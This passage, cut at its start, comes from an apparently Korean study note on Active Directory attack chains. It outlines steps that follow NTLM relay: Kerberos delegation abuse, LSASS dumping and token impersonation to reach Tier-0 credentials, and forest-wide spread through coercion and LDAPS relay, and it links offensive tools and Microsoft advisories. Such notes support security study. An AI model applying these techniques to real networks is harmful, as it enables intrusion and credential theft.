  위임 체인]]의 **S4U2Self/S4U2Proxy** 단계로 곧장 들어갑니다.
- **자격증명 피벗**: 릴레이 산물로 얻은 호스트에 로컬 관리자가 생기면
  [[윈도우 AD 침투 — 자격증명 피벗·권한상승 3가지 기법|LSASS 덤프·토큰
  가장]]으로 Tier-0 자격증명까지 번집니다.
- **포레스트 경계**: 같은 Forest 내 다른 도메인의 DC로 Coercion+LDAPS 릴레이가
  성립하면 [[공격 체인 이전의 AD 아키텍처 기초 — Kerberos, NTLM, DACL·ACE, GPO·SYSVOL, 도메인 트러스트|도메인 트러스트]]의
  "보안 경계는 Forest"라는 원칙 그대로, Forest 전체로 번집니다.

---

- 출처 모음: [Microsoft — NTLM authentication](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/b38c36ed-2804-4868-a9ff-8dd3182128e4), [fortra/impacket](https://github.com/fortra/impacket), [p0dalirius/Coercer](https://github.com/p0dalirius/Coercer), [topotam/PetitPotam](https://github.com/topotam/PetitPotam), [dirkjanm/mitm6](https://github.com/dirkjanm/mitm6), [lgandx/Responder](https://github.com/lgandx/Responder), [dirkjanm — NTLM relaying to AD CS](https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/), [ADV190023](https://msrc.microsoft.com/update-guide/vulnerability/ADV190023), [KB5005413](https://support.microsoft.com/topic/kb5005413), [Orange Cyberdefense GOAD](https://github.com/Orange-Cyberdefense/GOAD), [NetExec Wiki](https://www.netexec.wiki/)
